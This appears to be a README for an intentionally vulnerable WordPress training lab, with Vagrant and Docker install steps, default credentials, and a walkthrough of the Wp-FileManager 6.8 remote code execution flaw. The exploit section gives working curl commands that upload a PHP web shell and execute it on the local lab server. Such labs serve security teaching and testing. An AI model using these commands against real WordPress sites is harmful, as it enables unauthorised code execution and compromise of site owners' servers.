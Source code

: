 # WordpressVuln



A vulnerable wordpress site


# Install 

The vulnerable wordpress server could run in :
- a virtual machine on an ubuntu host 
- in a docker



## VM

### Install thanks vagrant  
```
sudo apt install vagrant
git clone https://github.com/jossets/WordpressVuln
vagrant up
```

### Credentials 

Vagrant alpine box credentials are:
- login: vagrant 
- password: vagrant 

## Docker 

### Install thanks docker-compose  
```
sudo apt install docker-compose
git clone https://github.com/jossets/WordpressVuln
docker-compose up
```

# Exploit 

WordPress Plugin Wp-FileManager 6.8 - RCE 
https://www.exploit-db.com/exploits/49178

## Detect 
```
curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"

{"error":["errUnknownCmd"]}
```

## Exploit

### Upload cmd.php
```
curl -F "cmd=upload" -F "target=l1_Lw"  -F "upload[]=@cmd.php" "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
```

### Run it
```
curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/files/cmd.php"

Pwnd
```
